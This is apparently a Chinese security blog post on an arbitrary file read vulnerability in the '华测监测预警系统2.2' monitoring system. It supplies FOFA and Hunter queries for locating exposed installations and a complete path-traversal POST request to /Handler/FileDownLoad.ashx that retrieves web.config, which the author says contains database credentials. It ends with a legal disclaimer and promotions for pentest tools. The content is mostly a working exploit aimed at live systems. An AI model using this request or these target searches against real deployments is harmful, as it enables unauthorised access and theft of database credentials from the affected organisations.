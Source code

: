 # 原创
：  任意文件读取漏洞

# 任意文件读取漏洞

**目录**

[1. 资产搜集](#1.%20%E8%B5%84%E4%BA%A7%E6%90%9C%E9%9B%86)

[2. 漏洞复现](#2.%20%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)

[3. 实战总结](#3.%20%E5%AE%9E%E6%88%98%E6%80%BB%E7%BB%93)

---


##### **1. 资产搜集**

直接上fofa 和 hunter<br/> 个人推荐hunter可以看到icp备案公司直接提交盒子就行了

**FOFA语法 app=”华测监测预警系统2.2”**

**Hunter语法 web.body=”华测监测预警系统2.2”**

##### **2. 漏洞复现**

这里手动复现的，目录是/Handler/FileDownLoad.ashx<br/> 通过hackerbar 可以修改POST传参，或者利用BP构造请求包。

```
POST /Handler/FileDownLoad.ashx HTTP/1.1

Host: ip:port

User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)

Accept-Encoding: gzip, deflate

Accept: */*

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 36



filename=1&amp;filepath=../../web.config
```

这里的filename随便传参，只是一个文件名字。<br/> filepath是文件路径，这里访问后会直接下载文件到本地。

文件里包含了数据库的账号密码

##### **3. 实战总结**

最后直接用hunter找到有备案信息的公司，直接提交 盒子成功！！！

申明：本公众号所分享内容仅用于网络安全技术讨论，切勿用于违法途径，

所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法.

**没看够~？欢迎关注！**<img alt="" height="567" src="https://img-blog.csdnimg.cn/3f5a63e56f7b420e82616d0099771f32.jpeg" width="1015"/>

渗透工具

技术文档、书籍

<img alt="" height="516" src="https://img-blog.csdnimg.cn/f333a24647774be5b99b00fb7019d620.png" width="852"/> <img alt="" height="523" src="https://img-blog.csdnimg.cn/3e579b7d7a164889a57771c035775069.png" width="856"/>

面试题

帮助你在面试中脱颖而出

视频

基础到进阶

环境搭建、HTML，PHP，MySQL基础学习，信息收集，SQL注入,XSS，CSRF，暴力破解等等

<img alt="" height="481" src="https://img-blog.csdnimg.cn/a601ca2e0eb040bd911477a4f54fef8e.png" width="694"/> <img alt="" height="77" src="https://img-blog.csdnimg.cn/04beeeb6757b422a83ca0900a349a544.png" width="665"/>
